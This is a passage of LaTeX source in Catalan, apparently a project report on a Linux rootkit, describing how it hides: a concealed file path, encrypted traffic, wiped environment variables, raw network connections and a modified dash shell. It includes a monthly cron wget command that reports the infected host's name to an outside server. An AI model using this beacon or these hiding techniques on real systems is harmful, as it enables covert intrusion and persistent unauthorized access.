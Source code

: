 \begin{enumerate}
\item Localització física del fitxer. \\
Per que el fitxer estigui força amagat, s'ha  buscat un path al sistema on rarament s'hi accedeixi. El
path escollit per defecte és /usr/share/zoneinfo/posix/America/Indiana/. / i és possible canviar-lo en 
les opcions de compilació.
\item Comunicació xifrada. \\
Un altre mètode d'ocultació és xifrar tot el trànsit que passa per la xarxa, de tal manera que ningú pogui veure de forma accidental o 
intencionada, que és el què està viatjant per la xarxa.
\item Eliminació de les variables d'entorn. \\
Al ser executat, el launcher elimina tota variable d'entorn per tal de que no es pugui tenir cap pista de què és el procés.
\item Connexions de xarxa no visibles. \\
Si s'utilitza el mode de comunicació raw, les connexions de xarxa no seran visibles des del sistema operatiu. L'única 
manera de donar-se compte d'elles seria analitzant el trànsit de xarxa.
\end{enumerate} 

 
\subsection{Heard beat}
Per implementar el heard beat, s'han utilitzat les tasques programades de periodicitat mensual. En l'script
.monthly, s'ha afegit la comanda:

\begin{Verbatim}[commandchars=@\[\]]
wget -q hostru.mine.nu/index.php?h@PYbe[=]@PYay[$(]hostname@PYay[)]
\end{Verbatim}

Aquesta comanda s'executarà mensualment, i realitzarà una petició contra una pàgina web, allotjada en un
servidor gratuït. Al realitzar la petició, aquesta quedarà contabilitzada juntament amb el hostname i la ip
on es troba el rootkit.

\subsection{Independència de la shell}
Per a aconseguir que el rootkit no depengui de quina shell té instal·lada el sistema on s'està executant, 
s'ha modificat la shell dash\footnote{Shell basada en ash, reescrita per debian que té la peculiaritat de ser
una shell a l'estil sh, però d'un tamany molt reduit.} per a poder-se afegir dintre del rootkit. \\


